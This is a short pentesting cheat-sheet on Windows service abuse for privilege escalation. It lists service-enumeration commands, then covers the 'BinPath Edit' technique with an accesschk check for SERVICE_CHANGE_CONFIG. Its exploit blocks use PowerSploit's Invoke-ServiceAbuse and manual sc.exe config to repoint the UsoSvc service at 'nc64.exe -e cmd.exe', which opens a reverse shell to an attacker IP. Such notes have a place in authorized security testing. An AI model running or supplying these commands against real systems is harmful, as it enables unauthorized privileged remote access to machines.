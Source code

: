 #### CMD
List services
```
sc queryex type=service state=all | find /i "service name"
net start
wmic service list brief
tasklist /SVC
```

Service details
```
sc query <service name>
```

Manage service
```
net stop/start [service name]
sc stop/start [service name]
```

#### GUI
run `services.msc`

### BinPath Edit

Weak service permissions can be used to modify the binary path in a service and hereby executy arbitrary files.

#### Detection
`accesschk64.exe -wuvc <service>`

if `"SERVICE_CHANGE_CONFIG"` permission enabled -> vulnerable ! we can change the service binary path to exec a custom command



#### Exploit
PowerSploit:
```
Import-Module C:\Users\Public\p.ps1;
Invoke-AllChecks
Invoke-ServiceAbuse -ServiceName 'UsoSvc' -Command "C:\Users\Public\nc64.exe -e cmd.exe 10.10.14.139 1122" -Verbose
```

Manual:
```
sc.exe stop UsoSvc;
sc.exe config UsoSvc binpath= "C:\Users\Public\nc64.exe 10.10.14.151 4442 -e cmd.exe";
sc.exe qc UsoSvc;
sc.exe start UsoSvc;
```

### Bin Edit
Services execute the file defined in their file path. If this file can be modified by an attacker, he is able to replace it by a malicious file of his own.
